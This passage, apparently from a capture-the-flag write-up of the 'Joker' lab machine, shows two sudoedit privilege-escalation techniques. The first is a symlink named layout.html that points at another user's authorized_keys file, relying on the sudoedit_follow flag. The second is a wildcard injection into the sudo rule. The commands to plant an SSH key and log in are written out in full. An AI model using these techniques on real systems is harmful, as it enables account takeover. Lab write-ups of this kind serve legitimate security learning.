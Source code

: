 So in order to not break the behavior if someone really wanted that, the
`sudoedit_follow` flag allows it to behave like the version 1.8.14 and before.
And that flag is present in this config.

Now I just have to drop a symlink to where I want to write as `layout.html`,
and I should be able to edit.

#### Exploit

I’ll make a directory in the `/var/www/testing` directory, `0xdf`. In there,
I’ll drop a symbolic link to the a file I want to write as alekos, the user’s
`authorized_keys` file.

    
    
    werkzeug@joker:~/testing$ mkdir 0xdf
    werkzeug@joker:~/testing/0xdf$ ln -s /home/alekos/.ssh/authorized_keys layout.html
    werkzeug@joker:~/testing/0xdf$ ls -l
    total 0
    lrwxrwxrwx 1 werkzeug werkzeug 33 Aug  4 03:53 layout.html -> /home/alekos/.ssh/authorized_keys
    

Now I can `sudoedit` the file with `sudoedit -u alekos
/var/www/testing/0xdf/layout.html`. It opens a blank file in `nano`, so I’ll
paste in my public SSH key.

### Exploit #2 - Wildcard Abuse

The command I can run is `sudoedit /var/www/*/*/layout.html`. What if I let
the `*/*` be `[space].ssh/authorized_keys[space]`. The command then becomes
`sudoedit /var/www/ .ssh/authorized_keys /layout.html`, which will try to open
three files to edit. The first, `/var/www/` will fail because it’s a
directory. The second will open, and the third will allow me to edit the
temporary file, but then won’t be able to write `layout.html` at the system
root.

I’ll use this to drop a public key into the `authorized_keys` file just like
above.

### SSH

Either way I update the `authorized_keys` file, I can connect over SSH:

    
    
    root@kali# ssh -i ~/keys/ed25519_gen alekos@10.10.10.21
    The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
    ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    